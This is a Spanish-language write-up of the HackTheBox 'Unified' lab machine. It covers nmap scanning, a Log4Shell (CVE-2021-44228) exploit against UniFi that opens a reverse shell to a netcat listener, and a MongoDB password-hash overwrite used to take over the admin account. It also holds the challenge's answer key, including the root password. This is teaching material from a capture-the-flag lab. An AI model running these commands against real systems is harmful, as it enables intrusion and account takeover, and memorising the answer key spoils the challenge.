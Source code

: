 ```yaml
---

---
```

1)¿Cuáles son los cuatro primeros puertos abiertos?
	22,6789,8080,8443

2)¿Cuál es el título del software que se está ejecutando en el puerto 8443?
	UniFi Network
	Salio del escaneo de nmap

3)¿Cuál es la versión del software que se está ejecutando?
	6.4.54
	![[Unified3.png]]

4)¿Cuál es el CVE de la vulnerabilidad identificada?
	CVE-2021-44228
	[Github donde esta el CVE](https://github.com/puzzlepeaches/Log4jUnifi)

5)¿Qué protocolo utiliza JNDI en la inyección?
	LDAP
	LDAP (Lightweight Directory Access Protocol) es un protocolo que permite acceder y administrar información organizada en forma jerárquica, como usuarios, grupos y dispositivos de red.  
	Se usa principalmente para autenticación y gestión de identidades en redes empresariales.  
	No usa SQL y está diseñado para consultas rápidas sobre datos estructurados tipo directorio.


6)¿Qué herramienta utilizamos para interceptar el tráfico que indica que el ataque ha tenido éxito?
	[[tcpdump]]

7)¿Para qué puerto necesitamos inspeccionar el tráfico interceptado?
	389

8)¿En qué puerto se ejecuta el servicio MongoDB?
	27117

9)¿Cuál es el nombre predeterminado de la base de datos para las aplicaciones UniFi?
	ace
	![[Unified9.png]]
	Es la ace por que es la unica que tiene peso

10)¿Cuál es la función que utilizamos para enumerar usuarios dentro de la base de datos en [[mongodb]]?
	db.admin.find()

11)¿Cuál es la función que utilizamos para actualizar usuarios dentro de la base de datos en [[mongodb]]?
	db.admin.update()

12)¿Cuál es la contraseña del usuario root?
	NotACrackablePassword4U2022

-------

# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.228.2
nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.129.228.2 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,6789,8080,8443,8843,8880 10.129.228.2 -oN target
```


![[Unified1.png]]
![[Unified2.png]]
*TTL:* Maquina linux
*Puertos:*
`22`SSH
`8080` Es un http
`6789, 8443, 8843, 8880` Estos todavia no sabemos para que son

--------
# CVE [[CVE-2021-44228]]

Cuando entramos al puerto 8080 que dice que es un http, nos redirigue a esta pagina
![[Unified4.png]]

[Link del CVE](https://github.com/puzzlepeaches/Log4jUnifi), Hicimos la instalacion que esta en el github
Ejecutamos el exploit ``python3 exploit.py -u https://10.129.228.2:8443 -i 10.10.16.17 -p 443`` estando en escucha con [[nc -nlvp 443]]

![[Unified5.png]]

![[Unified6.png]]

------
# [[Tratamiento de la TTY]]

---
# Escalada de privilegios

```
ps aux | grep mongod
```

![[Unified7.png]]

Vemos que esta corriendo en el puerto 27117

Nos conectamos con ``mongo --port 27117``
![[Unified8.png]]

Para ver las bases de datos `show dbs` y despues usamos la base de datos "ace" que es la unica que tiene contenido por el peso con `use ace`
Usamos comando ``db.admin.find()`` 
	**`admin` no es una colección por defecto**, sino una base de datos especial que contiene usuarios y configuraciones administrativas.
![[Unified11.png]]
```
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4."
```
Nos da la contraseña hasheada pero no se puede crackear


Entonces vamos a cambiar la contraseña del usuario administrator
Esa contraseña como empieza por $6 sabemos que es SHA-512 asi que creamos una nueva con [[mkpasswd]] ``mkpasswd -m sha-512 test123``

![[Unified12.png]]

``$6$sP2utyIhNX7e0kit$4ysm601QjS5IGZ50Ccru1AcaZ.BdiK96RBSyIweWoLewf7PY7Pf1cfyZbB7GjH5XUIUJFHJyU2UPcCDS3lDnU.`` Esta es nuestra contraseña hasheada

```
db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$sP2utyIhNX7e0kit$4ysm601QjS5IGZ50Ccru1AcaZ.BdiK96RBSyIweWoLewf7PY7Pf1cfyZbB7GjH5XUIUJFHJyU2UPcCDS3lDnU."}})
```

Ya esta cambiada la contraseña, ahora vamos a ingregar con las credenciales `administrator` y `test123`
![[Unified13.png]]


![[Unified14.png]]
En esta parte nos da la contraseña del usuario root `NotACrackablePassword4U2022` y nos podemos conectar por ssh

![[Unified15.png]]
Una vez dentro podemos ya podemos catear las flags

Las flags estan en /home/michaels/user.txt y /root/root.txt



--------
# Notas
Puerto 8080 es una variante para el puerto 80
Mongodb se llama la base de datos pero mongod es el demonio corriendo el proceso

`db.admin.find()` solo funcionaría si vos (o alguien) creaste una colección llamada `admin`, y no tiene relación con ver usuarios o permisos administrativos en MongoDB.

SHA-512Es **SHA-512** porque el hash empieza con `$6$`, que es el identificador estándar usado por la función `crypt()` en Linux para indicar el uso de SHA-512.
[Pagina para ver tipos de hashes](https://hashes.com/en/tools/hash_identifier)


--------
# Creditos
Writeup Oficial HackTheBox
Writeup [Datalife](https://thedatalife.com/hack-the-box-unified)


